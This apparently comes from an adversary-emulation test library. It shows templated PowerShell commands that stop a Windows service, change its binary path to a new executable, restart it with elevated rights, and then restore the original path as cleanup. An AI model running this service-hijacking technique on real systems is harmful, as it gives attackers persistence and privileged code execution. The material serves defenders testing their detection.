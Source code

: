 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Stop-Service -Name "#{service_name}" -force -erroraction silentlycontinue | Out-Null
set-servicebinarypath -name "#{service_name}" -path "#{new_bin_path}"
start-service -Name "#{service_name}" -erroraction silentlycontinue | out-null
```

#### Cleanup Commands:
```powershell
Stop-Service -Name "#{service_name}" -force -erroraction silentlycontinue | Out-Null
set-servicebinarypath -name "#{service_name}" -path "#{original_bin_path}" -erroraction silentlycontinue | out-null
```





<br/>
